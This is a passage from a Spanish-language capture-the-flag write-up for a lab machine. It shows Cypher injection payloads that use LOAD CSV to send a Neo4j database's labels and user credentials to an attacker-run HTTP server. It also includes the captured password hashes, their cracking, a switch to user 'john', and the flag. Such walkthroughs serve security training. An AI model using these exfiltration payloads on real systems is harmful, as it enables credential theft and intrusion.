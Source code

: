 Obtengo los ```labels```

```null
'OR+1%3d1+WITH+1+as+a+CALL+db.labels()+yield+label+LOAD+CSV+FROM+'http%3a//10.10.16.40/%3flabel%3d'%2blabel+as+l+RETURN+0+as+_0+//
```

```null
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [27/May/2023 09:00:48] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [27/May/2023 09:00:49] "GET /?label=employee HTTP/1.1" 200 -
```

Para el label ```user```, sus propiedades

```null
'+OR+1%3d1+WITH+1+as+a+MATCH+(f%3auser)+UNWIND+keys(f)+as+p+LOAD+CSV+FROM+'http%3a//10.10.16.40%3a80/%3f'+%2b+p+%2b'%3d'%2btoString(f[p])+as+l+RETURN+0+as+_0+//
```

```null
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [27/May/2023 09:31:09] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [27/May/2023 09:31:10] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [27/May/2023 09:31:10] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [27/May/2023 09:31:11] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [27/May/2023 09:31:11] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
```

Obtengo los valores en texto plano crackeandolos por ```Rainbow Tables``` en [Crackstation](https://crackstation.net)

<img src="/writeups/assets/img/OnlyForYou-htb/8.png" alt="">

Me convierto en ```john```

```null
www-data@only4you:~$ su john
Password: 
john@only4you:/var/www$ 
```

Puedo ver la primera flag

```null
john@only4you:~$ cat user.txt 
aaed739fc6a0af45db6b2b4da2c5cc64
```
